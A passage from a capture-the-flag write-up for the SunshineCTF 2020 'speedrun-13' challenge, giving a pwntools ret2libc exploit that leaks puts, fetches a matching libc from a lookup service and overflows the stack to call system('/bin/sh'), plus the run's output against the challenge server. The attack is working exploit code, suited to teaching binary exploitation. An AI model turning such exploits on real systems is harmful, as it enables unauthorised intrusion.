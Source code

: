 ```python  
payload += p32(binary.sym.vuln)  
payload += p32(binary.got.puts)

p.sendline(payload)  
_ = p.recv(4)  
puts = u32(_)  
log.info('puts: ' + hex(puts))  
p.recv(20)

if not 'libc' in locals():  
   try:  
       import requests  
       r = requests.post('https://libc.rip/api/find', json = {'symbols':{'puts':hex(puts)[-3:]}})  
       libc_url = r.json()[libc_index]['download_url']  
       libc_file = libc_url.split('/')[-1:][0]  
       if not os.path.exists(libc_file):  
log.info('getting: ' + libc_url)  
           r = requests.get(libc_url, allow_redirects=True)  
           open(libc_file,'wb').write(r.content)  
   except:  
       log.critical('get libc yourself!')  
       sys.exit(0)  
   libc = ELF(libc_file)

libc.address = puts - libc.sym.puts  
log.info('libc.address: ' + hex(libc.address))

payload  = 0x3e * b'A'  
payload += p32(libc.sym.system)  
payload += 4 * b'B'  
payload += p32(libc.search(b'/bin/sh').__next__())

p.sendline(payload)  
p.interactive()  
```

Again, checkout [newpax](https://github.com/datajerk/ctf-write-
ups/tree/master/darkctf2020/newpax) for details.  If you're interested in a
more robust _automatically-find-me-libc-and-give-me-shellz_, then checkout
[babypwn ROP](https://github.com/datajerk/ctf-write-
ups/tree/master/cybersecurityrumblectf2020/babypwn#rop-post-aslr-world).

Output:

```bash  
# ./exploit_13.py REMOTE=1  
[*] '/pwd/datajerk/sunshinectf2020/speedrun-13/chall_13'  
   Arch:     i386-32-little  
   RELRO:    Partial RELRO  
   Stack:    No canary found  
   NX:       NX enabled  
   PIE:      No PIE (0x8048000)  
[+] Opening connection to chal.2020.sunshinectf.org on port 30013: Done  
[*] puts: 0xf7e2dcb0  
[*] getting: https://libc.rip/download/libc6_2.23-0ubuntu11.2_i386.so  
[*] '/pwd/datajerk/sunshinectf2020/speedrun-13/libc6_2.23-0ubuntu11.2_i386.so'  
   Arch:     i386-32-little  
   RELRO:    Partial RELRO  
   Stack:    Canary found  
   NX:       NX enabled  
   PIE:      PIE enabled  
[*] libc.address: 0xf7dce000  
[*] Switching to interactive mode

```